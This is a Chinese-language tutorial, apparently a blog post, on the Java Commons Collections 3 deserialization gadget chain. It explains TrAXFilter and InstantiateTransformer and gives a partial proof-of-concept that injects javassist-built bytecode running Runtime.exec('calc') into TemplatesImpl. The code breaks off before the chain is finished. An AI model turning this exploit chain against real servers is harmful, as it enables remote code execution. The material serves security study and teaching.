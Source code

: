 ### 前置知识
#### TrAXFilter
`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 是对 XMLFilterImpl 的实现，在其基础上扩展了 Templates/TransformerImpl/TransformerHandlerImpl 属性

TrAXFilter 在实例化时接收 Templates 对象，并调用其 newTransformer 方法，这就可以触发我们的 TemplatesImpl 的攻击 payload 了
![](https://img-blog.csdnimg.cn/6997ae0e409b4edeb7db7b3d04893165.png)
#### InstantiateTransformer
Commons Collections 提供了 InstantiateTransformer 用来通过反射创建类的实例，可以看到 `transform()`方法实际上接收一个 Class 类型的对象，通过 `getConstructor` 获取构造方法，并通过 `newInstance` 创建类实例
![](https://img-blog.csdnimg.cn/85eb2b749d5848678ddc9e32007fe8e8.png)
反射需要的 iParamTypes 参数类型、iArgs 参数值则在 InstantiateTransformer 初始化时赋值
![](https://img-blog.csdnimg.cn/4c5200951f374b95abef82c5d861b5d2.png)
### 攻击构造
POC：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class cc3 {
    public static void main(String[] args) throws Exception{

        // 读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections333");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] bytes=payload.toBytecode();

        // 初始化 TemplatesImpl 对象
        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        // _name 不能为空
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "name");

        // 结合 ChainedTransformer
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{tmpl})
        });

```